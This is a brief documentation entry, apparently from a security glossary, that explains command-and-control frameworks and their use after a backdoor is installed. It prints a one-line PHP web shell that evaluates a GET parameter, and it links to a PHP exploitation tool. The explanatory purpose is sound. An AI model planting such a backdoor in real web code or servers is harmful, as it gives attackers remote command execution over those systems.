 .. _c2-framework:

C2 Framework
------------

A C2 framework is also known as a C&C framework, or command-and-control framework. It is a library of tools to use with a vulnerability, to discover and escalate services on a target website. 

Among the possible tasks, there are running command system, creating, editing and removing files, starting reverse shells, etc. 

C2-framework shall be used once a backdoor has been installed, to widen the control over the target server. The installation of the backdoor is not included in the C2 framework. 

.. code-block:: php
   
   <?php
   
   	// example of a simple backdoor, based on the GET method 
   	echo @eval($_GET['command']); 
   ?>


`Documentation <https://en.wikipedia.org/wiki/Command_and_control>`__

See also `PHPSPLO1T <https://github.com/nil0x42/phpsploit>`_, `Introduction to C2 Frameworks <https://redfoxsec.com/blog/introduction-to-c2-frameworks/>`_
